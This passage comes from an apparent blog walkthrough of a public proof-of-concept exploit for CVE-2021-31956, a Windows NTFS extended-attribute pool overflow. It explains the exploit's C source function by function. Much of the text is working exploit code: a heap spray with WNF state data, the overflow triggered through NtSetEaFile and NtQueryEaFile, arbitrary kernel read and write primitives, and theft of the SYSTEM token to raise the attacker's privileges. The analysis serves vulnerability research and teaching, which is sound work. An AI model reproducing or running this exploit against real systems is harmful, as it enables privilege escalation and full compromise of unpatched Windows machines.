struct _WNF_LOCK DeliveryPendingListLock; //0x68
struct _LIST_ENTRY DeliveryPendingListHead; //0x70
struct _KEVENT* NotificationEvent; //0x80
};
The TemporaryNamesListHead is of type _LIST_ENTRY and based on the _LIST_ENTRY function prototype, we can assume that this value always points to the next _WNF_NAME_INSTANCE unless it is the last _WNF_NAME_INSTANCE data structure. In that case, the last _WNF_NAME_INSTANCE data structure would contain the same address in both the head and next variables. As briefly discussed, the next variable simply points to the address stored in the head variable. This is shown below:
PLIST_ENTRY next = read64(head);
Finally, the last variable definition in the fix_runrefs is below:
PWNF_NAME_INSTANCE cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNameListEntry);
Here, we see that a variable called cur is a pointer to a _WNF_NAME_INSTANCE structure that contains the data structure pointed to by TemporaryNameListEntry. Based on the context of it's use, we can see that the pointer cur is used as a way to modify the RunRef member of any corrupted _WNF_NAME_INSTANCE data structures. We see this in action below:
for (; next != head; next = read64(next), cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNameListEntry))
if ((UINT64)read64(&(cur->Header)) != (UINT64)0x0000000000A80903) {
write64(&(cur->Header), (UINT64)0x0000000000A80903);
write64(&(cur->RunRef), (UINT64)0x0000000000000000);
}
As shown above, each _WNF_NAME_INSTANCE data structure is iteratively pointed to by cur and the Header member is read. If the Header member is not equal to the sane value 0x0000000000A80903, we then change both the Header member and the RunRef member to the sane values 0x0000000000A80903 and 0x0000000000000000, respectively.
Finally, the fix_runrefs function outputs an update to the screen and returns the previously defined status:
puts("[+] Fixed all overwritten header and runrefs");
return status;
The steal_token Function
According to MITRE, Token Stealing is defined as follows:
Adversaries may modify access tokens to operate under a different user or system security context to perform actions and bypass access controls. Windows uses access tokens to determine the ownership of a running process. A user can manipulate access tokens to make a running process appear as though it is the child of a different process or belongs to someone other than the user that started the process. When this occurs, the process also takes on the security context associated with the new token.
With this knowledge, Mantvydas Baranauskas provides a high-level overview of how Token Stealing is generally carried out:
- Open a process with access token you want to steal
- Get a handle to the access token of that process
- Make a duplicate of the access token present in that process
- Create a new process with the newly acquired access token
Now that we know the general process attackers use in Token Stealing, we can adapt that methodology to how the steal_token function works. To start things off, let's first examine the steal_token function declaration:
NTSTATUS steal_token(_In_ PEPROCESS own_eproc)
We see that the steal_token function takes a single read-only EPROCESS pointer called own_eproc and returns an NTSTATUS value. We know that own_eproc is a pointer to an EPROCESS structure since the standard naming convention for pointer variables usually entails the following components:
- A
Ppreceding a structure name. - The type being in all capital letters.
Moving on, we will now examine the first variable definition:
NTSTATUS status = STATUS_UNSUCCESSFUL;
The first variable, status is of type NTSTATUS and is initially set to the STATUS_UNSUCCESSFUL value 0xC0000001. However, if the steal_token function locates the SYSTEM process (0x4), the status value will be set to STATUS_SUCCESS. The following variable defined, next is shown below:
PLIST_ENTRY next = (PLIST_ENTRY)read64(&(own_eproc->ActiveProcessLinks));
The next variable is a pointer to a _LIST_ENTRY structure which contains the _LIST_ENTRY data structure stored in the ActiveProcessLinks member of the own_eproc input pointer. This is important as ActiveProcessLinks can be used recursively to obtain the memory address of the next EPROCESS data structure in memory.
PEPROCESS cur = CONTAINING_RECORD(next, EPROCESS, ActiveProcessLinks);
Our next variable, cur is a pointer to an EPROCESS structure. According to Microsoft:
The
CONTAINING_RECORDmacro returns the base address of an instance of a structure given the type of the structure and the address of a field within the containing structure.
The CONTAINING_RECORD macro prototype is:
void CONTAINING_RECORD(
address,
type,
field
);
Thus, the cur variable is a pointer to an EPROCESS structure that contains the next address pointing to the ActiveProcessLinks field. Within the CVE-2021-31956.h header file, we see that both EPROCESS and ActiveProcessLinks are defined as part of an abridged version of _EPROCESS:
typedef struct
{
char padding1[0x440];
UINT64 UniqueProcessId;
LIST_ENTRY ActiveProcessLinks;
char padding2[0x60];
EX_FAST_REF Token;
char padding3[0x3a8];
PWNF_PROCESS_CONTEXT WnfContext;
} EPROCESS, *PEPROCESS;
Here, we see that the typedef is not overwriting the _EPROCESS function prototype. Rather, it is simply creating a skeleton to be assigned as EPROCESS and by PEPROCESS. Now that we have defined all variable assignments within the steal_token function, we will now proceed onto the main for loop:
for (; cur != own_eproc; next = (PLIST_ENTRY)read64(next), cur = CONTAINING_RECORD(next, EPROCESS, ActiveProcessLinks))
if ((UINT64)read64(&(cur->UniqueProcessId)) == (UINT64)0x4) {
write64(&(own_eproc->Token), read64(&(cur->Token)));
status = STATUS_SUCCESS;
puts("[+] Stole system token!");
goto out;
}
Since the ActiveProcessLinks structure is a circular doubly-linked list, the for loop will terminate if the current EPROCESS is equal to our own EPROCESS. So long as this is not the case, the next variable is set to point to the cur EPROCESS' ActiveProcessLinks address. Then, the cur EPROCESS is updated to the EPROCESS pointed to by the next variable. This in-turn allows the for loop to execute the if condition on every EPROCESS in memory.
The UniqueProcessId for the SYSTEM EPROCESS is equal to 0x4. Therefore, the if condition checks if the cur EPROCESS has a UniqueProcessId of 0x4. If so, the Token member of the own_eproc EPROCESS, which is our own EPROCESS, will be overwritten with the Token member of the cur EPROCESS. The status value will then set to STATUS_SUCCESS and the for loop will break via the goto out statement.
If there is no EPROCESS that has a UniqueProcessId of 0x4, a log_warn message will be issued and the STATUS_UNSUCCESSFUL status will be returned. However, if the goto out statement is executed, the program will skip the log_warn line and proceed to the out: section of code and return the STATUS_SUCCESS value:
log_warn("Unable to find system process token");
out:
return status;
The write_pool Function
To start things off, let's go back to Alex Plaskett's blog post and review the work already done in reversing the functionality used to write controlled pool allocations. First off, as we recall, the AllocatedSize and DataSize members of the _WNF_STATE_DATA structure are excellent read/write primitives for any pool allocations made after the corrupted _WNF_STATE_DATA structure:
struct _WNF_STATE_DATA
{
struct _WNF_NODE_HEADER Header; //0x0
ULONG AllocatedSize; //0x4
ULONG DataSize; //0x8
ULONG ChangeStamp; //0xc
};
Now, there exists a user-mode accessible function call named NtUpdateWnfStateData that can allocate a _WNF_STATE_DATA chunk in the pool. This is done to conduct a heap spray in order to increase the likelihood that the vulnerable NTFS buffer is place right before a _WNF_STATE_DATA buffer in memory. With the theory out of the way, let's take a look at the function declaration for write_pool:
NTSTATUS write_pool(_In_ PWNF_STATE_NAME statenames, _In_ ULONG idx, _In_ char *buf, _In_ ULONG buf_sz)
We see that write_pool returns an NTSTATUS value and takes 4 parameters:
statenames: A read-only pointer to aWNF_STATE_NAMEstructure. However, based on the usage by themainfunction,statenamesis a collection ofWNF_STATE_NAMEstructures where the indexidxpoints to a specificWNF_STATE_NAMEstructure.idx: A read-only unsigned long value.buf: A read-only pointer to a character buffer.buf_sz: A read-only unsigned long value.
Before continuing, it's important to note that the WNF_STATE_NAME structure is the target for our read primitive, as with access to the WNF_STATE_NAME structure, we can get a pointer to the WNF_STATE_DATA buffer which would then allow us to write anywhere in memory.
Let's proceed to the variable initializations:
NTSTATUS status = STATUS_SUCCESS;
UINT64 name = 0;
Let's now define each variable's purpose within write_pool:
statusis initialized to the valueSTATUS_SUCCESSand is of typeNTSTATUS.nameis a unsigned 64-bit integer initialized to the value0.
Now that the two variables status and name are initialized, let's proceed to examine how they are updated:
name = (UINT64)(*(UINT64 *)(statenames[idx].Data));
status = _NtUpdateWnfStateData((PCWNF_STATE_NAME)&name, buf, buf_sz, NULL, NULL, 0, 0);
We see the following:
nameis set to theDatafield of the_WNF_STATE_NAMEat the indexidx.statusis set to theNTSTATUSreturned by the_NtUpdateWnfStateDatafunction call.
Let's further examine the _NtUpdateWnfStateData function call. First, we recall the following NULL pointer declaration:
NUWSD _NtUpdateWnfStateData = (NUWSD)NULL;
As _NtUpdateWnfStateData uses a custom datatype, let's look the custom datatype's prototype:
typedef NTSTATUS(NTAPI *NUWSD)(
_In_ PWNF_STATE_NAME StateName,
_In_reads_bytes_opt_(Length) const VOID *Buffer,
_In_opt_ ULONG Length,
_In_opt_ PCWNF_TYPE_ID TypeId,
_In_opt_ const PVOID ExplicitScope,
_In_ WNF_CHANGE_STAMP MatchingChangeStamp,
_In_ ULONG CheckStamp
);
We notice the similarity to the function prototype of NtUpdateWnfStateData:
NTSTATUS
NTAPI
NtUpdateWnfStateData(
_In_ PCWNF_STATE_NAME StateName,
_In_reads_bytes_opt_(Length) const VOID* Buffer,
_In_opt_ ULONG Length,
_In_opt_ PCWNF_TYPE_ID TypeId,
_In_opt_ const PVOID ExplicitScope,
_In_ WNF_CHANGE_STAMP MatchingChangeStamp,
_In_ LOGICAL CheckStamp
);
However, in the case of the custom datatype, it appears to simply be used as a means to set up a datatype to then be resolved by GetProcAddress. Due to ASLR/kASLR, it is no longer realistic to predict the base address of a function. Therefore, by simply creating a NULL pointer definition, we can define the structure prior to finding the function in memory.
Let's now proceed to the return conditions:
if (!NT_SUCCESS(status)) {
log_warn("write_pool::_NtUpdateWnfStateData()1");
goto out;
}
puts("[+] Successfully updated adjacent WNF_NAME_INSTANCE");
out:
return status;
We notice that if the _NtUpdateWnfStateData returns STATUS_SUCCESS, write_pool simply returns the status value STATUS_SUCCESS and outputs a puts message to the screen. However, if status is not equal to STATUS_SUCCESS, write_pool outputs a log_warn message and returns the status value.
Sandbox Constraints
One thing to keep in mind is that the _NtUpdateWnfStateData function is unavailable when operating in Low Integrity.
The read_pool Function
Next, in order to read from the pool, we will examine how to use NtQueryWnfStateData to achieve this. According to Nacho Gomez, we can define the purpose of NtQueryWnfStateData as follows:
Using the NtQueryWnfStateData API, any process can access the latest StateData published for a given StateName at any time (as long as it has read privileges over the StateName’s ACL), without being subscribed.
This goes in-line with the functionality of read_pool. Now with the purpose of read_pool laid out, let's go over its function declaration:
NTSTATUS read_pool(_In_ PWNF_STATE_NAME statenames, _In_ ULONG idx, _Out_ char *buf, _Inout_ PULONG buf_sz)
As shown above, the read_pool function returns a NTSTATUS value and accepts 4 parameters as input. We will now go over the purpose of each parameter:
statenames: A read-only pointer to aWNF_STATE_NAMEstructure. However, based on the usage by themainfunction,statenamesis a collection ofWNF_STATE_NAMEstructures where the indexidxpoints to a specificWNF_STATE_NAMEstructure.idx: A read-only unsigned long value.buf: A reference to a character buffer.buf_sz: A modifiable pointer to a unsigned long value.
With each parameter defined, we will now look at the variable initializations:
NTSTATUS status = STATUS_SUCCESS;
WNF_CHANGE_STAMP stamp = 0;
UINT64 name = 0;
We see each of the above variables are initialized to 0, with both the stamp an name values being passed as references to the _NtQueryWnfStateData function call. Now with the initializations out of the way, let's look at how read_pool modifies the name variable:
name = (UINT64)(*(UINT64 *)(statenames[idx].Data));
Here, we see that at index idx within the statenames collection of WNF_STATE_NAME structures allocated in memory, we read the Data value. Next, let's examine the usage and background of the _NtQueryWnfStateData function call:
status = _NtQueryWnfStateData((PCWNF_STATE_NAME)&name, NULL, NULL, &stamp, buf, buf_sz);
if (!NT_SUCCESS(status)) {
log_warn("read_pool::_NtQueryWnfStateData()1");
goto out;
}
First, let's look at the function prototype for _NtQueryWnfStateData:
_NtQueryWnfStateData = (NQWSD)GetProcAddress(ntdll, "NtQueryWnfStateData");
Let's examine the function prototype the custom pointer data structure is based on:
typedef NTSTATUS(NTAPI *NQWSD)(
_In_ PCWNF_STATE_NAME StateName,
_In_opt_ PCWNF_TYPE_ID TypeId,
_In_opt_ const VOID *ExplicitScope,
_Out_ PWNF_CHANGE_STAMP ChangeStamp,
_Out_writes_bytes_to_opt_(*BufferSize, *BufferSize) PVOID Buffer,
_Inout_ PULONG BufferSize
);
With the exception of the _In_opt_ variables which are set to NULL, referencing the above prototype, we look at the provided input parameters, we break each one down according to it's purpose:
name: A read-only address to theWNF_STATE_NAMEstructure at indexidx.stamp: A memory address to our zero-initializedWNF_CHANGE_STAMPstructure.buf: An optional pointer to an array ofbuf_szelements.
Finally, after calling NtQueryWnfStateData the read_pool function returns the NTSTATUS value from the NtQueryWnfStateData function call:
out:
return status;
Sandbox Constraints
One thing to keep in mind is that the GetProcAddress function is unavailable when operating in Low Integrity.
The find_chunk Function
Before delving into the find_chunk function, let's first take a look at its implementation within the main function:
if (!NT_SUCCESS(resolve_symbols()))
goto out;
if (!NT_SUCCESS(get_eproc(&own_eproc)))
goto out;
if (!NT_SUCCESS(spray_heap(statenames, SPRAY_COUNT, &buf, sizeof(buf))))
goto out;
if (!NT_SUCCESS(fragment_heap(statenames, SPRAY_COUNT)))
goto out;
if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
goto out;
while (!NT_SUCCESS(find_chunk(statenames, SPRAY_COUNT, &buf, &buf_sz, &overflow_idx)))
if (!NT_SUCCESS(overflow_chunk(OVERFLOW_SZ, OVERFLOW_DATA, OVERFLOW_SZ)))
goto out;
Here we see that after the paged heap is sprayed, fragmented, and overflowed, we then proceed to use the find_chunk function. Let's look at the variables used in the function call to find_chunk:
//CVE-2021-31956.h
#define SPRAY_COUNT 0x20000
//...
typedef struct _WNF_STATE_NAME
{
ULONG Data[2];
} WNF_STATE_NAME, *PWNF_STATE_NAME, *PCWNF_STATE_NAME;
//...
//CVE-2021-31956.c
PWNF_STATE_NAME statenames = zalloc(SPRAY_COUNT * sizeof(WNF_STATE_NAME));
char buf[0xa0] = { 0 };
ULONG buf_sz = sizeof(buf);
ULONG overflow_idx = 0;
//...
Let's now summarize the purpose of find_chunk with relation to how the key variable and structural definitions are used:
The
statenamespointer is iterated over at index 0 in order to obtain thestatenamesindex at which the overflow occurs. Once the overflow is found, theoverflow_idxis returned, containing theWNF_STATE_NAMEindex that is found to be overflowed.
With the summary out of the way, let's examine the find_chunk function line-by-line starting with the function declaration:
NTSTATUS find_chunk(_In_ PWNF_STATE_NAME statenames, _In_ UINT64 count, _Out_ char *buf, _Inout_ PULONG buf_sz, _Out_ PULONG idx)
Let's formally break down each of the input parameters for the find_chunk function:
statenames: A read-only pointer to a series ofWNF_STATE_NAMEstructures. Of which, one of the structures may be overflowed as thus exploitable.count: A read-only 64-bit unsigned integer specifying the number ofWNF_STATE_NAMEstructures sprayed.buf: A reference to the sprayed buffer.buf_sz: A modifiable pointer to a unsigned long value indicating the size of the sprayed bufferbuf.idx: A pointer to the unsigned long value location for the index of the overflowedWNF_STATE_NAMEstructure.
Now that we have defined the input parameters of the find_chunk function, let's now examine the variable declarations for find_chunk:
NTSTATUS status = STATUS_SUCCESS;
WNF_CHANGE_STAMP stamp = 0;
UINT64 name = 0;
int overflow = -1;
As with the input parameters, let's formally define the use of each of the variables defined:
status: ANTSTATUSvalue used to determine whether or not aWNF_STATE_DATAstructure was found to be overflowed.
Before in order to fully understand the stamp variable that defined next, let's examine the WNF_CHANGE_STAMP data structure:
typedef ULONG WNF_CHANGE_STAMP, *PWNF_CHANGE_STAMP;
We see that the stamp is really just a unsigned long value. However, in the context of the find_chunk function, stamp is used as part of the _NtQueryWnfStateData function call. Therefore, let's examine the NULL-pointer declaration for _NtQueryWnfStateData:
_NtQueryWnfStateData = (NQWSD)GetProcAddress(ntdll, "NtQueryWnfStateData");
With this in mind, let's now look at the type definition for NQWSD:
typedef NTSTATUS(NTAPI *NQWSD)(
_In_ PCWNF_STATE_NAME StateName,
_In_opt_ PCWNF_TYPE_ID TypeId,
_In_opt_ const VOID *ExplicitScope,
_Out_ PWNF_CHANGE_STAMP ChangeStamp,
_Out_writes_bytes_to_opt_(*BufferSize, *BufferSize) PVOID Buffer,
_Inout_ PULONG BufferSize
);
We see that the stamp variable used is actually a reference for the _NtQueryWnfStateData function call to output the ChangeStamp value to. In layman's terms, the stamp variable is used by the find_chunk function to hold the ChangeStamp value of every WNF_STATE_NAME iterated. Each ChangeStamp value stored in stamp will then be checked for the magic value of 0x5000. If found, find_chunk will return a NTSTATUS value of STATUS_SUCCESS. If not, find_chunk will return a value of STATUS_UNSUCCESSFUL.
Let's now proceed to the final two variables defined in find_chunk:
name: A unsigned integer, initialized to 0, that contains a pointer to theDatamember of eachWNF_STATE_NAME. When used by_NtQueryWnfStateData, it will serve as a reference to the specificWNF_STATE_NAMEused byfind_chunkto test if theChangeStampvalue has been corrupted or not.overflow: A integer, initialized to -1, that will be set to the index of the corruptedWNF_STATE_NAMEif found.
With both the function declaration and the variable definitions examined, let's now look into the for loop used to iterate over each WNF_STATE_NAME structure created during the heap spray:
for (int i = 0; i < count; i++)
{
if (!statenames[i].Data[0])
continue;
//...
}
The for loop starts by first checking if the Data member is valid. If it is not, continue to the next WNF_STATE_NAME chunk.
for (int i = 0; i < count; i++)
{
//...
name = (UINT64)(*(UINT64 *)(statenames[i].Data));
//...
}
Here, the name variable is pointed to the Data member of the ith WNF_STATE_NAME chunk.
for (int i = 0; i < count; i++)
{
//...
status = _NtQueryWnfStateData((PCWNF_STATE_NAME)&name, NULL, NULL, &stamp, buf, buf_sz);
//...
}
Next, the NtQueryWnfStateData function is called in order to obtain the ChangeStamp value of the ith WNF_STATE_NAME chunk.
for (int i = 0; i < count; i++)
{
//...
if ((ULONG)stamp == 0x5000) {
overflow = i; // found our overflow chunk index
printf("[+] Successfully overflowed into a WNF_STATE_DATA chunk at index 0x%x\n", overflow);
break;
}
//...
}
The ChangeStamp value is then checked against the magic number 0x5000 to determine if the WNF_STATE_NAME is corrupted. If the ChangeStamp is equal to 0x5000, the overflow variable is set to the index i and the for loop is broken.
for (int i = 0; i < count; i++)
{
//...
if (!NT_SUCCESS(status)) {
log_warn("find_chunk::_NtQueryWnfStateData()1");
goto out;
}
}
However, if the NTSTATUS variable status is not equal to STATUS_SUCCESS, the program breaks and goes to the out designated portion of the program. In other words, if the NtQueryWnfStateData function call fails for whatever reason, the program breaks and goes to out.
if (overflow == -1) {
// means we corrupted a wnf name instance instead of name header, should overflow again.
// we will fix these corrupted wnf name instances in the end.
log_warn("Did not overflow a WNF_STATE_DATA chunk, overflow again!");
status = STATUS_UNSUCCESSFUL;
goto out;
}
else
status = STATUS_SUCCESS;
After the for loop completes, if the overflow variable is not set to the ith index, the corrupted WNF_STATE_DATA chunk was not found and the NTSTATUS variable status is set to STATUS_UNSUCCESSFUL and the program goes to out. However, if the overflow variable was set to the ith index of the WNF_STATE_DATA chunks, the program sets the status variable to STATUS_SUCCESS.
*idx = overflow;
out:
return status;
The pointer idx is set to the corrupted WNF_STATE_DATA index and the status is returned to the callee.
The overflow_chunk Function
Before discussing the specifics of the overflow_chunk function, let's first review how exactly the vulnerability can be reached from user-mode. According to the previously-covered advisory, this can be achieved through a ntoskrnl.exe system call (syscall). Therefore, we want to find any syscalls related to extended attributes (Ea). After looking through the Windows x64 syscall table provided by hfiref0x, we find the following two entries:


Because the advisory mentioned the vulnerable function is called NtfsQueryEaUserEaList, we can make an educated guess and assume that the NtQueryEaFile syscall will eventually reach NtfsQueryEaUserEaList. The same logic is applied to the NtSetEaFile syscall.
Thus, we will see the overflow_chunk using the NtSetEaFile syscall to create the conditions needed so that the syscall NtQueryEaFile can trigger the vulnerability. Now that we know the syscalls needed to invoke the vulnerability, let's examine it's usage within the overflow_chunk function starting with the function definition:
NTSTATUS overflow_chunk(_In_ USHORT overflow_chunk_sz, _In_ char *overflow_data, _In_ USHORT overflow_data_sz)
Before discussing the function definition for overflow_chunk, let's examine the values used when overflow_chunk is called in main:
//CVE-2021-31956.h
#define OVERFLOW_DATA "\x00\x50\x00\x00\x00\x50\x00\x00\x00\x50\x00\x00\x00\x50\x00\x00\x00\x50\x00\x00\x00\x50\x00\x00"
#define OVERFLOW_SZ 0x18
The overflow_chunk function takes in three parameters:
overflow_chunk_sz: A read-only unsigned short used as theEaValueLengthvalue.overflow_data: A read-only pointer to a character buffer containing the bytes that will overflow into the neighboring data structure. As observed with thefind_chunkfunction, this data is set to a series of0x5000values used as a magic number.overflow_data_sz: A read-only unsigned short that specifies the size of thememcopyused to overflow the buffer.
Now that we have defined how the input parameters are used by overflow_chunk, we will now discuss the variable definitions found in the function:
NTSTATUS status = STATUS_SUCCESS;
HANDLE file = INVALID_HANDLE_VALUE;
IO_STATUS_BLOCK x = { 0 };
FILE_FULL_EA_INFORMATION *fetched_data = zalloc(0x300);
FILE_GET_EA_INFORMATION *vuln_selector = zalloc(0x300);
FILE_GET_EA_INFORMATION *vuln_selector2;
FILE_FULL_EA_INFORMATION *payload = zalloc(0x300);
FILE_FULL_EA_INFORMATION *overflow;
Let's now examine each variable in-depth:
status: A variable returned after function execution of typeNTSTATUSinitialized toSTATUS_SUCCESS.file: A handle to the file whose Extended Attributes will be exploited.
Before examining x, let's first review what an IO_STATUS_BLOCK datatype is. According to Microsoft,
A driver sets an IRP's I/O status block to indicate the final status of an I/O request, before calling IoCompleteRequest for the IRP.
Thus, with this in mind, x is first initialized to 0 from which its reference will be passed to both NtSetEaFile and NtQueryEaFile.
Let's now examine the fetched_data variable. According to NTInternals,
NtQueryEaFileis used to readEAfromNTFSfile
Let's examine the type definition for NtQueryEaFile's function prototype Y3A used in CVE-2021-31956.h:
typedef NTSTATUS(*NQEF)(
HANDLE FileHandle,
PIO_STATUS_BLOCK IoStatusBlock,
PVOID Buffer,
ULONG Length,
BOOLEAN ReturnSingleEntry,
PVOID EaList,
ULONG EaListLength,
PULONG EaIndex,
BOOLEAN RestartScan
);
With this definition in mind, let's look to see how fetched_data is used in overflow_chunk:
NtQueryEaFile(file, &x, fetched_data, 0xaa, FALSE, vuln_selector, 0x300, NULL, TRUE);
We see fetched_data is a pointer to Buffer, were according to NTInternals, Buffer is defined as,
Caller's allocated buffer for output data.
However, in the context of our exploit, we will not use fetched_data after it is called. The focus of the exploit is to use NtQueryEaFile to overflow into the next data structure in memory.
Let's now examine the variable vuln_selector. As with the fetched_data variable, this value also appears to be a pointer used in the function call to NtQueryEaFile. In the case of vuln_selector, it is used as the EaList pointer. According to NTInternals, EaList is described as:
Optional list of FILE_GET_EA_INFORMATION structures containing names of EA
Reviewing the usage of vuln_selector, we observe that it is used extensively to access the various properties of the first Extended Attribute defined by EANAME1 and provided in the FILE_GET_EA_INFORMATION structure.
Reviewing the usage of vuln_selector, we observe that it is used extensively to access the various properties of the first Extended Attribute defined by EANAME1 and provided in the FILE_GET_EA_INFORMATION structure.
Similar to vuln_selector, vuln_selector2 provides the same functionality except with the target Extended Attribute being defined by EANAME2. However, it is interesting to note that the pointer for vuln_selector2 is not allocated any memory initially. However, after being declared, the pointer vuln_selector2 is then assigned to the next Extended Attribute entry at the NextEntryOffset offset of vuln_selector.
Now, let's examine the purpose of the payload pointer. We see it is of the FILE_FULL_EA_INFORMATION structure, which is the same structure as the fetched_data variable. However, in this case, it is used to create the payload which will be injected via the NtSetEaFile function call.
Finally, let's examine the purpose of the overflow variable. As with both fetched_data and payload, overflow is initialized as a pointer to a FILE_FULL_EA_INFORMATION structure. However, in the case of overflow, it is not allocated memory and is simply declared. Within the context of the overflow_chunk function, overflow is used to get the next Extended Attribute entry at the NextEntryOffset offset of payload.
Now that we have defined the variables used within overflow_chunk, let's look at the function's purpose starting with the API call to CreateFileA:
file = CreateFileA("c:\\users\\username\\desktop\\placeholder.txt",
GENERIC_READ | GENERIC_WRITE,
FILE_SHARE_READ | FILE_SHARE_WRITE,
NULL,
CREATE_ALWAYS,
FILE_ATTRIBUTE_NORMAL,
NULL);
Since the ExtendedAttributes are associated to a file, we first need to create a user-controlled file through the CreateFileA API.
if (file == INVALID_HANDLE_VALUE) {
log_warn("overflow_chunk::_CreateFileA()1");
goto out;
}
If there is an issue with the file's creation, the above if statement will catch any error and terminate the function early by going to the out portion of overflow_chunk.
if (!fetched_data || !vuln_selector || !payload) {
log_warn("overflow_chunk::zalloc()1");
goto out;
}
Next, we see that if any of the pointer allocations are invalid, the same early termination then occurs. Let's now examine the use of vuln_selector after it has been initialized and allocated:
vuln_selector->EaNameLength = (UCHAR)strlen(EANAME1);
memcpy(vuln_selector->EaName, EANAME1, vuln_selector->EaNameLength);
vuln_selector->NextEntryOffset = (ULONG)0xc;
Walking through the above code line by line we observe the first line sets the EaNameLength of the ExtendedAttribute pointed to by vuln_selector to the length of the EANAME1 value. According to CVE-2021-31956.h of Y3A's proof-of-concept, this value is set to the string abc. Next, a memcopy is performed copying EANAME1 to EaName with length EaNameLength. Finally, the NextEntryOffset is set to 0xC, which then allows vuln_selector2 to obtain the next ExtendedAttribute structure.
vuln_selector2 = (PFILE_GET_EA_INFORMATION)((UINT64)vuln_selector + (UINT64)(vuln_selector->NextEntryOffset));
vuln_selector2->EaNameLength = (UCHAR)strlen(EANAME2);
memcpy(vuln_selector2->EaName, EANAME2, vuln_selector2->EaNameLength);
vuln_selector2->NextEntryOffset = (ULONG)0x0;
The implementation of vuln_selector2 is similar to vuln_selector with one key difference: The first line initializes vuln_selector2 to the next ExtendedAttribute data structure after vuln_selector. The second line sets the EaNameLength of the ExtendedAttribute pointed to by vuln_selector2 to the length of the EANAME2 value. According to CVE-2021-31956.h of Y3A's proof-of-concept, this value is set to the string bcd. Next, a memcopy is performed copying EANAME2 to EaName with length EaNameLength. Finally, the NextEntryOffset is set to 0x0, which indicates no following ExtendedAttributes structures are after vuln_selector2.
Next, let's take a look at the implementation of the payload pointer within overflow_chunk:
payload->Flags = (UCHAR)0x0;
First, we observe that the ExtendedAttribute flags are set to 0x0. According to Microsoft, flags are defined as follows:
Can be zero or can be set with
FILE_NEED_EA, indicating that the file to which the EA belongs to cannot be interpreted without understanding the associated extended attributes.
In our case, since the ExtendedAttribute flag member is set to 0x0, we can assume that the file can be interpreted without needing to understand the associated extended attributes. Next, let's look at EaNameLength:
payload->EaNameLength = (UCHAR)strlen(EANAME1);
According to Microsoft, EaNameLength is as follows:
The length in bytes of the
EaNamearray. This value does not include a null-terminator toEaName.
We see the name itself, EaNameLength, is rather self explanatory and in it's implementation we see that EaNameLength is set to EANAME. Referencing back to CVE-2021-31956.h, we know that EANAME1 is set to the string abc. Thus, EaNameLength would be equal to the length of EANAME1.
payload->EaValueLength = (USHORT)0x9d;
Next, we look at EaValueLength. According to Microsoft, EaValueLength is:
The length in bytes of each EA value in the array.
Unlike the EANAME1, EaValueLength examines the length of the ExtendedAttributee contents rather than just the name of the ExtendedAttribute. In the case of payload, the ExtendedAttribute value for EANAME1 is `0x9d.
memcpy(payload->EaName, EANAME1, payload->EaNameLength);
After the Flags, EaNameLength, and EaValueLength members are set within the payload ExtendedAttribute, we then proceed to perform a memcopy, to EaName with the contents of EANAME1 and the length of EaNameLength.
memset(payload->EaName + payload->EaNameLength + 0x1, 'C', payload->EaValueLength);
Next, we see that memset is then used to set the memory region pointed to at EaName+EaNameLength+0x1 to all C with a length of EaValueLength.
payload->NextEntryOffset = (ULONG)((payload->EaNameLength + payload->EaValueLength + 0x3 + 0x9) & (~0x3));
Finally, we get to the NextEntryOffset member of the payload instantiation of the FILE_FULL_EA_INFORMATION structure. Let's break down exactly what the offset is calculated to be:
- First, the
EaNameLengthmember is added to theEaValueLength. - Then, the value
0x3and0x9are added. - Finally, an AND operation is carried out with the right-hand value being the bitwise NOT of
0x3.
We review Y3A's blogpost and notice that Y3A's way of calculating the NextEntryOffset is simply translated from the decompiled NtfsQueryEaUserEaList as shown below:
HANDLE file = INVALID_HANDLE_VALUE;
IO_STATUS_BLOCK x = { 0 };
FILE_FULL_EA_INFORMATION *fetched_data = zalloc(0x300);
FILE_GET_EA_INFORMATION *selector = zalloc(0x300);
FILE_GET_EA_INFORMATION *selector2;
FILE_FULL_EA_INFORMATION *eadata1 = zalloc(0x300);
FILE_FULL_EA_INFORMATION *eadata2;
file = CreateFileA("c:\\users\\chenl\\desktop\\ABC.txt",
GENERIC_READ | GENERIC_WRITE,
FILE_SHARE_READ | FILE_SHARE_WRITE,
NULL,
CREATE_ALWAYS,
FILE_ATTRIBUTE_NORMAL,
NULL);
selector->EaNameLength = (UCHAR)strlen(EANAME1);
memcpy(selector->EaName, EANAME1, selector->EaNameLength);
selector->NextEntryOffset = (ULONG)0xc;
selector2 = (PFILE_GET_EA_INFORMATION)((UINT64)selector + (UINT64)(selector->NextEntryOffset));
selector2->EaNameLength = (UCHAR)strlen(EANAME2);
memcpy(selector2->EaName, EANAME2, selector2->EaNameLength);
selector2->NextEntryOffset = (ULONG)0x0;
eadata1->Flags = (UCHAR)0x0;
eadata1->EaNameLength = (UCHAR)strlen(EANAME1);
eadata1->EaValueLength = (USHORT)0x9d;
memcpy(eadata1->EaName, EANAME1, eadata1->EaNameLength);
memset(eadata1->EaName + eadata1->EaNameLength + 0x1, 'C', eadata1->EaValueLength);
eadata1->NextEntryOffset = (ULONG)((eadata1->EaNameLength + eadata1->EaValueLength + 0x3 + 0x9) & (~0x3));
eadata2 = (PFILE_FULL_EA_INFORMATION)((UINT64)eadata1 + (UINT64)(eadata1->NextEntryOffset));
eadata2->NextEntryOffset = (ULONG)0x0;
eadata2->Flags = (UCHAR)0x0;
eadata2->EaNameLength = (UCHAR)strlen(EANAME2);
eadata2->EaValueLength = (USHORT)eadata2_chunk_sz;
memcpy(eadata2->EaName, EANAME2, eadata2->EaNameLength);
memcpy(eadata2->EaName + eadata2->EaNameLength + 0x1, eadata2_data, eadata2_data_sz);
_NtSetEaFile(file, &x, eadata1, 0x300);
NtQueryEaFile(file, &x, fetched_data, 0xaa, FALSE, selector, 0x300, NULL, TRUE);
Thus, we also will look at the following excerpt from Y3A's blogpost:
The way of calculating NextEntryOffset is taken from the decompiled
